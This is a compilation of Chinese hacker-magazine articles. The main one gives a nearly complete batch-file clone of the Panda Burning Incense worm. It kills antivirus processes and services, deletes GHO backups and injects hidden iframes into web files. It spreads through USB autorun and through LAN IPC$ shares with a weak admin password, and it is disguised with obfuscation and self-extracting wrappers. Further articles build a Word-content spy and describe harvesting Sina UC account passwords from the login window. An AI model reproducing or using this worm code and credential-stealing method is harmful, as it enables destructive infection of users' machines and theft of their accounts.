简单的 PE 文件感染就是这样的。当然，为了更好地隐藏病毒程序，我们还可以将宿主程序的图标取出来分别写入，这样就不会改变感染后程序的图标了。以上我只是写了示范代码，像熊猫烧香那样感染整个硬盘的可执行文件，做得那么绝就不好了。现在为止，我们就已经了解了病毒目前常用的 3 个方法的 Delphi 实现，其原理也适合其它编程语言。如果大家能充分消化其中的方法，就会对 Windows 运行机制有一个更深刻的了解，也会对编程有所帮助。最后再说明一下，本文纯属技术探讨，大家切记，千万不要将这些技术用于编写那些破坏性的病毒，于己于人都没有益处。

适合读者：编程爱好者

前置知识：批处理

## 批处理版熊猫烧香

### 全程手把脚


文／图 黑黑的菜

最近几个月，网络上熊猫烧香病毒很猖獗，搞得网络上沸沸扬扬，专杀工具一搜一大堆。转回正题，笔者最近对批处理颇感兴趣，联想到熊猫烧香病毒这么火，于是趁火打劫一把，找了下熊猫烧香病毒的特征，也仿了个熊猫烧香病毒的半成品出来，但是是由批处理制作的喔。

熊猫烧香病毒的特征是启动病毒程序复制自身到 system32\drivers 目录，修改注册表实现不显示隐藏文件，修改注册表启动项实现开机自启动，中止安全软件进程，删除安全软件的注册表启动项，删除安全软件的服务，向可移动磁盘复制病毒，在 ASP、ASPX、HTM 和 HTML 文件中插入网页木马代码，感染所有非系统文件的 EXE 等可执行文件，删除所有 GHO 备份文件。一句话，很强，集合了很多病毒木马的特征！

针对上面提到的这些特征，我这里用批处理来模拟，只有“感染 EXE 等可执行文件”没能实现，其他都能实现。代码如下，我将作详细讲解。如果你还不会批处理，那么通过本文，你将对批处理有一个了解与认识！本文涉及范围广，不过我会描述尽量简单化，令大家印象深刻。

```bat
REM 关闭回显
@echo off
REM 中止系统中众多安全软件的进程
... tskill Mcshield.exe & tskill VstskMgr.exe & tskill ...
... tskill RavTask.exe & tskill Rav.exe & tskill ...
... tskill KVCenter.kxp & tskill KVSrvXP.exe ...
```

```bat
// tskill 是结束进程的命令，& 是组合命令，顺序执行，不管前面是否失败。
REM 启动木马程序
start /b %systemroot%\system32\Sysdrv.com

REM 遍历所有驱动器并寻找可移动磁盘
for %%i in (c d e f g h i j k l m n o p q r s t u v w x y z) do @fsutil fsinfo drivetype %%i >> %systemroot%\temp.txt

findstr /i "可移动驱动器" %systemroot%\temp.txt
if errorlevel==1 goto next
if errorlevel==0 goto cop
:cop
for /f "tokens=1" %%i in ('findstr /i "可移动驱动器" %systemroot%\temp.txt') do @set yidong=%%i
copy bat.exe %yidong%\ /y

// 其后为逐行解释注释与批处理语法说明（for、findstr、errorlevel、goto 等）
```

```bat
// 注意 yidong 由于已经是个环境变量了，以后应用都需要用成对的%%括起来。
copy Sysdrv.com %yidong%\ /y
attrib +s +h %yidong%\Sysdrv.com
attrib +s +h %yidong%\bat.exe

if exist %yidong%\autorun.inf (
  attrib -r -s -h %yidong%\autorun.inf
  del %yidong%\autorun.inf
)

echo [AutoRun]>%yidong%\Autorun.inf
echo shell\open\command=bat.exe>>%yidong%\Autorun.inf
echo shell\open=打开(&O)>>%yidong%\Autorun.inf
echo shell\explore=资源管理器(&X)>>%yidong%\Autorun.inf
echo shell\explore\command=bat.exe>>%yidong%\Autorun.inf

attrib +s +h %yidong%\Autorun.inf
del %systemroot%\temp.txt /q /f

REM 循环遍历磁盘，自动删除 *.gho 文件
for %%a in (c d e f g h i j k l m n o p q r s t u v w x y z) do (
  if exist %%a:\nul (
    for /f "tokens=*" %%b in ('dir /s /b /a-d %%a:\*.gho') do del "%%b" /q /f
  )
)

REM 循环遍历磁盘，自动对 ASP、ASPX 插入网页木马代码
for %%a in (c d e f g h i j k l m n o p q r s t u v w x y z) do (
  if exist %%a:\nul (
    for /f "tokens=*" %%b in ('dir /s /b /a-d %%a:\*.asp') do (
      echo ^<iframe src="http://127.0.0.1" width="0" height="0" border="0"^>^</iframe^>>>"%%b"
    )
  )
)
```

```bat
// 注意一下，这句中用了多个转义字符，<> 的符号都要去除本意。
// 目的是把所有硬盘中的 ASP/ASPX 文件插入网页代码。

REM 循环遍历磁盘，自动对 HTM、HTML 插入网页木马代码
for %%a in (c d e f g h i j k l m n o p q r s t u v w x y z) do (
  if exist %%a:\nul (
    for /f "tokens=*" %%b in ('dir /s /b /a-d %%a:\*.htm') do (
      echo ^<iframe src="http://127.0.0.1" width="0" height="0" border="0"^>^</iframe^>>>"%%b"
    )
  )
)

REM 修改以下值不显示隐藏文件
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL" /v "CheckedValue" /t REG_DWORD /d 0 /f

REM 添加注册表使自己自启动
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v type /t REG_EXPAND_SZ /d "C:\WINDOWS\System32\bat.exe" /f

REM 删除安全软件在注册表中的键值
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v RavTask /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v KvMonXP /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v kav /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v KAVPersonal50 /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v McAfeeUpdaterUI /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Network Associates Error Reporting Service" /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v ShStatEXE /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v YLive.exe /f
REG DELETE HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v yassistse /f

REM 删除以下服务
sc delete navapsvc
sc delete wscsvc
sc delete KPFwSvc
sc delete SNDSrvc
sc delete ccProxy
sc delete ccEvtMgr
sc delete ccSetMgr
sc delete SPBBCSvc
sc delete Symantec Core LC
sc delete NPFMntor
sc delete MskService
sc delete FireSvc

del Sysdrv.com
del bat.vbs
del %0
```

```bat
REM 局域网传播
for /f "tokens=2 delims=:" %%a in ('ipconfig ^| find /i "ip address"') do (set ip=%%a&& goto :gof)
:gof
set "ip=%ip: =%"
for /f "tokens=1,2,3 delims=." %%b in ("%ip%") do (set ip1=1 call :bb %%b %%c %%d %ip1%)
:bb
set IP=%1.%2.%3.%ip1%
ping %IP% -n 1 -w 1 | findstr /i "time<" && net use \\%IP%\ipc$ "123456" /user:"administrator" && copy bat.vbs \\%IP%\admin$ && REG ADD \\%IP%\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v type /t REG_EXPAND_SZ /d "C:\WINDOWS\System32\bat.vbs" /F
```

```bat
set /a ip1+=1
// 将最后段的 IP 累加
if %ip1% lss 255 goto :bb
Exit
```

好了，至此批处理代码部分就全部介绍完了，还是不明白的话，可以根据每个命令通过“/?”查看具体帮助来释疑。

批处理编写结束后，下面给大家演示一下隐藏与伪装的艺术。批处理编写的文件最怕什么？对！被人窥探到源码。根据经验，可以对批处理内容加密而执行效果不变，例如对文本强行加上 Unicode 编码，达到加密目的。

```bat
for /l %%a in (1,1,10) do ren *.jpg.%%a
%%a %%a %%a %%a %%a %%a %%a %%a %%a %%a
%%a %%a %%a %%a %%a %%a %%a %%a %%a %%a
%%a %%a %%a %%a %%a %%a %%a %%a %%a %%a
...（大量重复的 %%a 混淆内容）
```

注意，这段代码必须放在批处理开头，正文第一行必须是“@echo off”，保存文件编码选为 ANSI，而且需要运行一次该批处理后才会加密完毕。如此之后就能对 bat 和 cmd 加密了，具体效果如图1所示。但是这样加密还不够，因为对大虾来说破解很容易。用 Unicode 编码加密的文件，将后缀改为 doc，然后找个 Word 或 UltraEdit 就能打开并显示了。



下面介绍第二种方法。先看一个例子，如图2所示。大家注意左上角的图标，有没有发现不是系统默认的 bat 或 cmd 的那种图标？而批处理文件是不能修改图标的！其实只要将它编译为 EXE 可执行文件，就能更改图标了。此类软件常见的有 Quick Batch File Compiler 和 ExeScript，后者的特点是编译出来的文件很小，但缺点是对变量、空格等特殊字符处理不是很好，容易出错。推荐用前者，它还支持加反编译密码及更换图标等功能。



当然了，凡事总有攻与防两方面，有牛人又发现它们也是存在不足的。因为在运行批处理的过程中，在 C:\Documents and Settings\Administrator\Local Settings\Temp 目录下会出现临时文件，这个临时文件就会暴露源码。有人可能会说我啰嗦了半天都是能破解的，但是前两者结合的话，对付一般的小菜是没问题了，而且既然学习批处理，肯定会接触到这类编译为 EXE 的工具。另外，也总得把我知道的破解方法告诉大家吧？

好了，再切回正题。我最后的方法是直接用 WinRAR 做自解压包。呵呵，打包的文件名称分别为 bat.vbs、bat.bat 和 sysdrv.com，然后设置 bat.vbs 为解压后运行，它的代码就寥寥几行，具体如下所示，目的是让 bat.bat 隐藏运行。

```vb
On Error Resume Next
set wshshell=createobject("wscript.shell")
a=wshshell.run("bat.bat",0)
```

将自解压包取名为 bat.exe，这就是最终制作出来的病毒了。再对 bat.exe 加一层自解压缩包，取名为 bingdu.exe，解压后执行的是 bat.exe。也就是说当执行 bingdu.exe 后，会在 system32 目录下生成三个文件 bat.vbs、bat.bat 和 sysdrv.com，外加一个 bat.exe 压缩包，以后传播的都是 bat.exe。三个文件解压出来后经过 bat.bat 时会被自动删除。

这个制作出来的病毒大致流程是这样的：双击后自动解压到 system32 目录，并通过 bat.vbs 隐藏打开 bat.bat；bat.bat 里先中止杀毒软件和防火墙进程，然后执行名为 sysdrv.com 的木马程序，接着搜索是否插有可移动磁盘，如果有则向它拷贝病毒；然后删除 GHO 文件，对 ASP、HTM 插入网页木马，接着修改注册表令自身隐藏并实现开机启动，让杀毒软件和防火墙无法启动，删除相关服务；最后如果发现存在局域网且能连接 IPC$，就传播病毒并设为自启动。另外当被感染的可移动磁盘在其他机器上双击后，也会触发病毒 bat.exe，走一遍里面的 bat.bat 流程。

最后总结一下，这个批处理版熊猫烧香功能上还不是很完美，主要在于没有搞成驻留内存每隔几秒扫描一次是否病毒文件已被删除。这是因为批处理的致命弱点导致的，反复隔几秒地循环起来会狂占内存。当然，用批处理来做，实现上也是没问题的，我已经测试过。给大家提个思路，有兴趣可以继续研究。我们可以用“ping 127.1 -n 6”来延时，这样每隔大概 3 秒左右，再用 goto 继续循环，就可以达到效果了。文章如有什么错误，还请大家批评与指点。最后提醒大家，我们要从学习的角度出发，不要真刀真枪地拿它来干坏事哦。

---

适合读者：编程爱好者

前置知识：VC

#### Office Spy DIY


##### 文图信息标题条

针对不同应用程序进行内容监视和文本获取，黑防已经介绍了不少，如针对聊天工具、Web 页面等。今天，笔者和大家一起 DIY 一个 Office Spy，针对 MS Office，利用其 COM 接口获取文本，保存其文档内容。

这里我们以 MS Word 为例进行叙述，其它 Office 组件可以触类旁通。Office 的 COM 接口提供了 _Application（应用程序）、Documents（所有文档）、Document（一个文档）、_Document（活动文档）、Selection（内容对象）等对象供我们使用。我们要做的获取文本、保存文档动作就是对这些对象的操作。好，知道了原理，下面开工。

打开 Class Wizard，点击下拉按钮 Add Class，从下拉菜单中选择 From a type Library。Word 2003 的类型库文件名为 Msword.olb，在诸如 C:\Program Files\Microsoft Office\OFFICE11 的文件夹下；Word 2000 的类型库文件名为 Msword9.olb。选择类型库后，在接下来的 Confirm Classes 对话框中选择 _Application、_Document 和 Selection 这三个类，如图2所示。

我们保留其缺省头文件名 msword.h 和源文件名 msword.cpp。在引用这些对象的源文件中需要包含该头文件。在使用这些对象之前，我们需要对其进行初始化，打开 COfficeSpyApp 中的 InitInstance() 函数，在其中添加 AfxOleInit() 语句即可。



##### 程序框架

打开 VC6，新建一个基于对话框的工程 OfficeSpy，删除界面上原有的确定、取消按钮和静态文本标签，添加“获取文本”按钮（IDC_BTN_GETTEXT）、“保存文档”按钮（IDC_BTN_SAVEDOC）和一个编辑框（IDC_EDIT1），并选中其 Multiline 属性和 Vertical Scroll 属性。界面设计如图1所示。



打开 Class Wizard，点击下拉按钮 Add Class，从下拉菜单中选择 From a type Library，Word 2003 ...

##### 获取文本

获取文本的大致步骤为：获取应用程序对象、活动文档对象、内容对象；获取文本成功后删除各对象指针。其实现代码如下。

```cpp
void COfficeSpyDlg::OnBtnGettext()
{
    CLSID cs;
    HRESULT hr = ::CLSIDFromProgID((LPCOLESTR)L"Word.Application", &cs);
    // 由 ProgID 得到 CLSID
    if (hr != S_OK) {
        MessageBox("你可能没有安装 OFFICE。");
        return;
    }

    IUnknown *pUnknown = NULL;
    IDispatch *pDispatch = NULL;
    _Application app = NULL;   // Word 对象
    Selection sel = NULL;      // 内容对象

    hr = GetActiveObject(cs, NULL, &pUnknown);
    if (hr != S_OK) {
        MessageBox("没有 WORD 在运行。");
    }
    // ...（后续代码）
}
```

```cpp
return;
hr = pUnknown->QueryInterface(IID_IDispatch, (LPVOID*)&app);
if (hr != S_OK) { MessageBox("获取WORD接口指针失败。"); return; }
pUnknown->Release();
pUnknown = NULL;
sel = app.GetSelection();
if (!sel) { MessageBox("没有打开WORD文档。"); return; }
long start = sel.GetStart();
long end = sel.GetEnd();
sel.WholeStory();
CString str = sel.GetText();
sel.SetStart(start);
sel.SetEnd(end);
SetDlgItemText(IDC_EDIT1, str);
...
```

##### 保存文档

由上面的介绍，我们可以猜到保存文档是对 `_Document`（当前活动文档）进行操作的。查阅 MSDN 可知，`_Document` 有一个 `SaveAs` 成员函数，从字面上看大概就是它了。函数原形如下：

```cpp
void SaveAs(VARIANT* FileName,
  VARIANT* FileFormat,
  VARIANT* LockComments,
  VARIANT* Password,
  VARIANT* AddToRecentFiles,
  VARIANT* WritePassword,
  VARIANT* ReadOnlyRecommended,
  VARIANT* EmbedTrueTypeFonts,
  VARIANT* SaveNativePictureFormat,
  VARIANT* SaveFormsData,
  VARIANT* SaveAsAOCELetter)
```

数一数，11个参数，晕倒了吧？这些参数该如何设置呢？我们可以借助 VBA。打开任意一篇 Word 文档，选择菜单“工具->宏->录制新宏”，等宏录制工具栏出现后，选择菜单“文件->另存为”，文件名设为 `abcde.doc`。停止宏录制，查看宏代码，如下所示。

```vb
ActiveDocument.SaveAs FileName:="abcde.doc", _
  FileFormat:=wdFormatDocument, _
  LockComments:=False, _
  Password:="", _
  AddToRecentFiles:=True, _
  WritePassword:="", _
  ReadOnlyRecommended:=False, _
  EmbedTrueTypeFonts:=False, _
  SaveNativePictureFormat:=False, _
  SaveFormsData:=False, _
  SaveAsAOCELetter:=False
```

```vb
WritePassword := "",
ReadOnlyRecommended := False,
EmbedTrueTypeFonts := False,
SaveNativePictureFormat := False,
SaveFormsData := False,
SaveAsAOCELetter := False
```

不难发现，VBA 中 `SaveAs` 的 11 个参数和 COM 接口对象 `_Document` 的 `SaveAs` 的 11 个参数是一一对应的。为了方便操作 `VARIANT` 类型变量，我们使用 `CComVariant` 模板类，所以要在 `OfficeSpyDlg.cpp` 文件中包含 `atlbase.h` 文件。本工程“另存 DOC”按钮的实现代码如下。

```cpp
void COfficeSpyDlg::OnBnSavedoc()
{
  CString szFilter = "MS word files|*.doc|All files|*.*||";
  CFileDialog dlg(FALSE, "", "", 0, szFilter, NULL);
  if (IDCANCEL == dlg.DoModal()) return;
  CString strFileName = dlg.GetPathName();
  _Document doc = app.GetActiveDocument();

  CComVariant FileName(_T(strFileName)), FileFormat(0);
  CComVariant LockComments(false), Password(_T(""));
  CComVariant AddToRecentFiles(false), WritePassword(_T(""));
  CComVariant ReadOnlyRecommended(false), EmbedTrueTypeFonts(false);
  CComVariant SaveNativePictureFormat(0), SaveFormsData(false), SaveAsAOCELetter(false);

  doc.SaveAs(&FileName, &FileFormat, &LockComments,
    &Password, &AddToRecentFiles, &WritePassword,
    &ReadOnlyRecommended, &EmbedTrueTypeFonts,
    &SaveNativePictureFormat,
    &SaveFormsData, &SaveAsAOCELetter);
}
```

##### 结束语

Office COM 接口提供给我们的功能远不止这些，用它还可以实现文本输入、表格绘制、图形绘制、文档打印、设置密码等 Office 原有的大部分功能。此文只作抛砖引玉，撰写过程中参考了相关技术资料，以上代码在 Windows XP + VC6.0 中调试通过。

- 适合读者：编程爱好者  
- 前置知识：VC

## 盗号研究

## 杀新浪UC

文/图 阿珂境界


近年来，即时通讯工具（IM）是盗号木马猖獗的重灾区。树大招风的腾讯 QQ 使出浑身解数，先后使用软键盘、键盘加密等技术来招架防御。其他 IM 工具呢？新浪 UC、网易泡泡、雅虎通，挨个儿看过去，形势不容乐观啊。俗话说，知己知彼，百战不殆，本文就以新浪 UC 为例，介绍一下账号和密码的记录过程。

TUCTabSheet 的子窗口有两个，且类名均为 `ImagePanel`，但窗口标题一个是 `LogoImage`，另一个是 `ImagePanel`，不难判断，后者是我们需要的。再向下，又嵌套了一组 `TUCTabControl` 和 `TUCTabSheet`，其下有两个子窗口，类名为 `UCFlatEdit` 的就是密码框，类名为 `TXPComboBox` 的正是账号下拉框。对于 VC 来说，由父窗口查找子窗口，我们可以使用 `FindWindowEx` 函数来实现，其函数原型如下。

##### 窗体结构分析

我选用的编程工具是 VC6.0，窗体结构分析工具是 Visual Studio 自带的 Spy++。首先打开新浪 UC2006，填上账号和密码。再打开 Spy++，点击菜单“搜索->查找”窗口，拖动探测器指针到 UC 登录框上，得到它的窗口类名为 `TLoginForm`（原来是 Borland 师兄啊）。再把探测器指针拖到密码框上，得到密码框的类名为 `TUCFlatEdit`，点确定，观察树形窗体结构，发现密码框类名前的“china”正是我输入的密码，如图1所示。

```c
HWND FindWindowEx(
    HWND hwndParent,    // 父窗口句柄
    HWND hwndChildAfter,// 前驱子窗口句柄
    LPCTSTR lpszClass,  // 类名
    LPCTSTR lpszWindow  // 窗口标题
);
```

其中第二个参数 `hwndChildAfter` 如果赋值 `NULL`，则从第一个子窗口开始找起；而第三、第四个参数，在不知道其中的一个或两个值时，均可赋值 `NULL`。



图1

UC 在 Spy++ 中的窗体结构呈有规律的阶梯状排列，且大部分父窗口有唯一的子窗口，这给我们从最外层查找密码框带来了方便。如最外层窗口类名为 `TLoginForm`，唯一子窗口类名为 `TPanel`，再向下，唯一子窗口类名为 `TUCTabControl`、`TUCTabSheet`。

##### 程序设计

首先用一个定时器来监视活动窗口，如果活动窗口的类名为 `TLoginForm` 时，则可能是 UC 窗口，此时调用 `FindWindowEx` 开始一层层向下查找账号和密码框，这一过程中任一环节失败都直接返回。如果查找到账号和密码框，且不为空，则用两个全局变量 `m_strID` 和 `m_strPWD` 保存。当活动窗口类名不是 `TLoginForm` 时，则一定不是 UC 窗口，为了判断 UC 窗口是否出现过（账号密码已被截取），此时检查上述两个全局变量是否为空，非空则写入文件，并将其值清空，空则继续监视。上面的思路用 UML 活动图表示如图2所示。

##### 编写代码

启动 VC6.0，新建一个基于对话框的 MFC 程序。

